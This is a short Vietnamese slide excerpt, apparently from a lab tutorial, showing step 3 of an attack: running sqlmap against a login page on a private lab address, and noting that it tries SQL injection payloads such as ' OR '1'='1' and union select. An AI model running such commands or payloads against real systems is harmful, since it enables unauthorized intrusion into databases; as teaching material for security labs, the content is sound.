

Bước 3: Sử dụng sqlmap để tấn công tự động
Trên máy tấn công chạy:
sqlmap -u "http://192.168.198.132/login.php" --method POST --data "username=admin&password=123" --level 2 --risk 2

 Kết quả: sqlmap sẽ thử các payload SQL Injection (bao gồm ' OR '1'='1', union select, v.v.) và báo cáo nếu tìm thấy lỗ hổng.